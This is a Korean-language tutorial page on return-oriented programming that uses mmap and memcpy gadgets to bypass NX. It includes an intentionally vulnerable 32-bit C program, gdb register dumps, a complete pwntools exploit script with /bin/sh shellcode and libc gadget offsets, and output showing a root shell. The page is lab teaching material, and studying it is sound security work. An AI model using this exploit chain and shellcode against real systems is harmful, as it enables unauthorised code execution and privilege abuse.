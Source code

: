 ## **Concept**

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*66을 입력해 Overflow 가능.

```
gdb-peda$ x/24wx $ebp
0xbffff538:	0x41414141	0x0804850a	0xb7fb63dc	0xbffff560
```

**POPAD**: 스택에 존재하는 값을 EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 레지스터에 저장.

```
gdb-peda$ x/24wx $esp
0xbfdfca50:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfdfca60:	0x45454545	0x46464646	0x47474747	0x48484848
```

이 상태에서 POPAD할 경우 다음과 같이 레지스터에 저장된다.

```
EAX: 0x48484848 ('HHHH')
EBX: 0x45454545 ('EEEE')
ECX: 0x47474747 ('GGGG')
EDX: 0x46464646 ('FFFF')
ESI: 0x42424242 ('BBBB')
EDI: 0x41414141 ('AAAA')
EBP: 0x43434343 ('CCCC')
ESP: 0xbfdfca70 ("IIIIlg۷n313337277")
```

**PUSHAD**: EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 순으로 레지스터의 값을 스택에 저장한다.  
위와 같이 POPAD 한 상태에서 PUSHAD 한 경우의 esp.

```
gdb-peda$ x/24wx $esp
0xbfe351f4:	0x41414141	0x42424242	0x43434343	0xbfe35214
0xbfe35204:	0x45454545	0x46464646	0x47474747	0x48484848
```

## **Exploit Method**
1. mmap() 함수를 이용하여 새로운 메모리 영역 할당
1. POPAD Gadget에 의해 memcpy() 함수 주소가 저장된 영역으로 이동
  * Libc의 memcpy() 함수는 Exploit Code에서 사용할 Memory 값을 복사할 수 없다.
  * memcpy() 함수는 CPU가 지원하는 Streaming SIMD 확장에 맞는 함수의 주소값을 리턴(EAX에 저장됨)
1. XCHG EAX,EDI Gadget에 의해 리턴받은 __memcpy_sse2_unaligned() 함수의 주소를 EDI 레지스터에 저장
1. POP ESI Gadget에 의해 memcpy()함수 호출 후 이동할 return address를 ESI 레지스터에 저장
1. POP EBP Gadget에 의해 1번째 인자 값을 EBP 레지스터에 저장
1. POP EBX Gadget에 의해 3번째 인자 값을 EBX 레지스터에 저장
1. PUSHAD Gadget에 의해 레지스터에 저장된 값들을 Stack 에 저장하고 0x1028 영역(0x1048 - (0x4 * 레지스터 개수(8))으로 이동
  * 2 번째 인자 값은 ESP 레지스터에 저장되어 있기 때문에 별도의 조작이 필요하지 않다.
1. 0x1028 영역에서 memcpy() 함수로 인해 Stack에 저장된 shellcode가 mmap()에 의해 생성된 메모리 영역으로 복사
1. memcpy() 함수가 종료되면 mmap()에 의해 생성된 메모리 영역으로 이동하여 shellcode를 실행
  * 해당 영역은 RWX 권한이 설정되어 있기 때문에 Shellcode 실행이 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

binary = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
p=process('./rop')
#gdb.attach(p)
p.recvline()
printf_addr = int(p.recvline().split()[3],16)

print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x49670
libc_mmap = libBase + libc.symbols['mmap']
libc_memcpy = libBase + libc.symbols['memcpy']

libc_popad_ret = libBase + 0x0016b802
libc_pushad_ret = libBase + 0x0000c76c
libc_xchg_eax_edi = libBase + 0x000f5c6b
libc_pop_esi = libBase + 0x00124c3f
libc_pop_ebp = libBase + 0x00136d43
libc_pop_ebx = libBase + 0x00143fe3

new_mem = 0x20000000

payload = "A"*66
# mmap(new_mem,0x1000,0x7,0x22,0xffffffff,0)
payload += p32(libc_mmap)
payload += p32(libc_popad_ret)
payload += p32(new_mem)
payload += p32(0x1000)
payload += p32(0x7)
payload += p32(0x22)
payload += p32(0xffffffff)
payload += p32(0)
payload += 'AAAA'*2

# memcpy(new_mem,'address of shellcode',len(shellcode))
payload += p32(libc_memcpy)
payload += p32(libc_xchg_eax_edi)
payload += p32(libc_pop_esi)
payload += p32(new_mem)
payload += p32(libc_pop_ebp)
payload += p32(new_mem)
payload += p32(libc_pop_ebx)
payload += p32(len(shellcode))
payload += p32(libc_pushad_ret)
payload += shellcode

#raw_input("1")
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/root/test/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib/i386-linux-gnu/libc-2.23.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 4854
printf_addr: 3084265072
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect>
